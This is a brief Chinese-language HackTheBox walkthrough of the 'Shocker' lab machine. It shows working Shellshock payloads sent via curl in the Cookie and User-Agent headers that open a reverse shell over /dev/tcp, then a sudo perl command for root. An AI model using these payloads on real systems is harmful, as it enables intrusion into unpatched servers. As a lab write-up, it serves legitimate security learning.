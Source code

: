 ```yaml
---
layout: post
title:  "HackTheBox >_ Shocker_56"
description: walkthrough
category: HackTheBox
---
```

# Shocker_56

![image-20200925153553677]({{ site.url }}/assets/Shocker_56.assets/image-20200925153553677.png)

这个太简单了，简写了。

扫目录扫到网站下存在/cgi-bin/user.sh，cgi-bin目录存在可执行文件，则存在shellshock漏洞

```bash
$ curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.41/443 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

或者

```bash
$ curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh
```

 (注意这行没改符号，编码)

直接在监听端口获得shell

![image-20200925152821916]({{ site.url }}/assets/Shocker_56.assets/image-20200925152821916.png)

直接得到user

![image-20200925152943502]({{ site.url }}/assets/Shocker_56.assets/image-20200925152943502.png)




sudo -l 直接发现免密root，GTFObins，执行perl

![image-20200925153059488]({{ site.url }}/assets/Shocker_56.assets/image-20200925153059488.png)



```bash
$ sudo /usr/bin/perl -e 'exec "/bin/bash"'
```

得到root shell

![image-20200925153250558]({{ site.url }}/assets/Shocker_56.assets/image-20200925153250558.png)

比这个更简单的怕是只有blue了。

